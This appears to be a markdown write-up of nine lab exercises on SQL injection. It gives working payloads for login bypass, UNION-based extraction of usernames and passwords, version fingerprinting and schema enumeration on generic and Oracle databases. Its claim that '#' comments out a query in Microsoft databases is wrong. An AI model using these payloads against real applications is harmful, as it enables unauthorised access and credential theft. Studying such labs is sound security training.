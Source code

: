 # SQLi

## LAB 1 -- Retrieving hidden data

find vulnerable part by adding **_'_** which will accure error in the server
example: SELECT _ FROM product where category = '$cat_name'
error: SELECT _ FROM product where category = 'pets''
to avoid the error you need to comment all the next words by adding -- in oracle and # in microsoft
**SOLUTION :** '+or+1=1

---

## LAB 2 -- Subverting application logic

after finding vuln part we can use it for multiple reasons like bypassing login
this is the authentication logic: SELECT \* FROM users WHERE username = '$user' AND password = '$pass'

after setting $user = administrator'--
will select only administrator username and comment the next logic
**SOLUTION:** administrator'--

---

## LAB 3 -- Determining the number of columns required in a SQL injection UNION attack

with UNION you get data from other tables and display it

1. so first let's start with ' order by num -- with this payload you can check how many columns are there by inserting number from 1 until the error accured (**The ORDER BY position number 3 is out of range of the number of items in the select list.**)
2. or you can use 'union select null,null... until you found the right number of columns which the data will be displayed wothout any errors
   **SOLUTION:** '+UNION+SELECT+NULL,NULL--

---

## LAB 4 -- Finding columns with a useful data type in a SQL injection UNION attack

then you need to know the type of the column int or str by replacing null with random values like this :
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
**SOLUTION:** '+UNION+SELECT+null,'qJRR0O',NULL--

---

## LAB 5 -- Using a SQL injection UNION attack to retrieve interesting data

in this lab will you need to use union attack to retrieve the username and the password
after finding how many columns are available and there types you can use the str columns to get username and password
**SOLUTION:** '+UNION+SELECT+username,+password+FROM+users--

---

## LAB 6 -- Retrieving multiple values within a single column

in this lab you will find just one str column but you need to get the username & pass
you retrieve them in single column using the following payload
**SOLUTION:** ' UNION SELECT username || '~' || password FROM users--

---

## LAB 7 -- Querying the database type and version

**ORACLE SOLUTION:** '+UNION+SELECT+BANNER,+NULL+FROM+v$version--
**MICROSOFT SOLUTION:** '+UNION+SELECT+@@version,+NULL#

---

## LAB 8 -- Listing the contents of the database

now we need to get all content of the database notice that we will use **information_schema.tables** to get all tables and **information_scheme.columns** to get the columns of the tbales

**SOLUTION:**

1. you need to get all tables using this payload **'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--**

2. you need to get all the columns of the table with this payload:
   **'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--**
3. get the username and the pass of the admin with the following payload: **'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--**

---

## LAB 9 -- Lab: SQL injection attack, listing the database contents on Oracle

**SOLUTION:**

1. you need to get all tables using this payload **'+UNION+SELECT+table_name,+NULL+FROM+all_tables--**

2. you need to get all the columns of the table with this payload:
   **'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='users_abcdef'--**
3. get the username and the pass of the admin with the following payload: **'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--**
